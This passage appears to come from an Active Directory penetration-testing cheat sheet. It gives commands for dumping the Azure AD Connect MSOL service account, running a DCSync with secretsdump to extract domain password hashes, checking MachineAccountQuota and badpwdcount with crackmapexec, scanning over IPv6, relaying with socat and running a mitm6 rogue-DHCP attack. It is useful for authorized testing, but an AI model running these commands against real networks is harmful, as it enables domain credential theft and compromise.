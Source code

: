 #### MSOL Service Account

> you can dump MSOL Service account with [azuread\_decrypt\_msol.ps1](https://gist.github.com/xpn/f12b145dba16c2eebdd1c6829267b90c) used by Azure AD Connect Sync and launch a DCsync attack with the dumped creds

_DCSync with MSOL account_

```
secretsdump -outputfile hashes $domain/$msol_svc_acc:$msol_pwd@$ip
```

### Miscs

#### Domain Level Attribute

**MachineAccountQuota (MAQ) Exploitation**

use crackmapexec (CME) with maq module :

`cme ldap $dc -d $DOMAIN -u $USER -p $PASSWORD -M maq`

**BadPwdCount**

```
crackmapexec ldap 10.10.13.100 -u $user -p $pwd --kdcHost 10.10.13.100 --users
LDAP        10.10.13.100       389    dc1       Guest      badpwdcount: 0 pwdLastSet: <never>
```

#### Abusing IPv6 in AD

sending ICMPv6 packet to the target using ping6 :

`ping6 -c 3 <target>`

scanning IPv6 address using nmap :

`nmap -6 -sCV dead:beef:0000:0000:b885:d62a:d679:573f --max-retries=2 --min-rate=3000 -Pn -T3`

tips for adapting tools for ipv6 :

```
echo -n "port1" "port2" "port3" | xargs -d ' ' -I% bash -c 'socat TCP4-LISTEN:%,fork TCP6:[{ipv6-address-here}]:% &'
netstat -laputen |grep LISTEN
```

you can replace AF\_INET value to AF\_INET6 from socket python lib :

```
sed -i "s/AF_INET/AF_INET6/g" script.py
```

**Rogue DHCP**

`mitm6 -i eth0 -d 'domain.job.local'`

**IOXIDResolver Interface Enumeration**

it's a little script that enumerate addresses in NetworkAddr field with [**RPC\_C\_AUTHN\_DCE\_PUBLIC**](https://docs.microsoft.com/en-us/windows/win32/rpc/authentication-service-constants) level
